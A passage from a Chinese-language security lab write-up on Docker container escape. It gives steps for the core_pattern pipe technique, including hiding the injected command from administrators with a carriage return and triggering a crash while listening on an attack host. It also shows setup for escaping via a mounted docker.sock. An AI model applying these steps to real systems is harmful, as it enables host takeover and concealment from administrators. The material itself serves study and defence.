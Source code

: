 ```bash
# 是以宿主机权限运行，所以py文件为当前容器文件路径在宿主机上的绝对路径
```
/proc/sys/kernel/core_pattern文件是负责进程奔溃时内存数据转储的，当第一个字符是管道符|时，后面的部分会以命令行的方式进行解析并运行。\r之后的内容主要是为了管理员通过cat命令查看内容时隐蔽我们写入恶意命令。
#### 运行崩溃程序
在攻击主机上开启一个监听，然后在容器里运行一个可以崩溃的程序
```bash
vim /tmp/t.c
```
t.c内容
```bash
#include<stdio.h>
int main(void)  {
   int *a  = NULL;
   *a = 1;
   return 0;
}
```
编译运行
```bash
gcc t.c -o t
./t
```
#### 逃逸成功
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1665542070004-c303fd22-d8b8-4352-a574-bd2fb6c22c20.png#averageHue=%231a1817&clientId=u0f42f4aa-7114-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=191&id=u71298ad3&margin=%5Bobject%20Object%5D&name=image.png&originHeight=287&originWidth=1003&originalType=binary&ratio=1&rotation=0&showTitle=false&size=22316&status=error&style=none&taskId=ucb2ed6ed-d826-4090-8664-4ffbdfdbcbd&title=&width=668.6666666666666)


## [配置安全]挂载Docker Socket逃逸
### 漏洞描述
Docker采用C/S架构，我们平常使用的Docker命令中，docker即为client，Server端的角色由docker daemon扮演，二者之间通信方式有以下3种：

- unix:///var/run/docker.sock(默认
- tcp://host:port
- fd://socketfd

Docker Socket是Docker守护进程监听的Unix域套接字，用来与守护进程通信——查询信息或下发命令。
### 利用条件

- 攻击者获得了 docker 容器的访问权限
- 容器已安装/var/run/docker.sock
### 环境配置

- 宿主机： 阿里云ECS centos7.6
- docker容器：ubuntu 18.04
- 监听机：腾讯云 centos7.6 
### 漏洞复现
#### 创建验证文件
在宿主机的/home目录下创建验证文件
```bash
touch /home/success.txt
```
#### 容器搭建
创建一个容器并挂载 /var/run/docker/sock 文件
```bash
docker run -itd --name with_docker_sock -v /var/run/docker.sock:/var/run/docker.sock ubuntu:18.04
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1665987409752-ab64dce4-f7a2-4984-b672-f8e4f723b469.png#averageHue=%230e0a07&clientId=u752b558a-d397-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=151&id=u6f4cd6a6&margin=%5Bobject%20Object%5D&name=image.png&originHeight=227&originWidth=940&originalType=binary&ratio=1&rotation=0&showTitle=false&size=31109&status=error&style=none&taskId=uf50b6b15-fa61-49ce-be66-04fc3b170e8&title=&width=626.6666666666666)
#### 安装Docker命令行客户端
在容器内安装Docker命令行客户端
```bash
docker exec -it with_docker_sock /bin/bash
```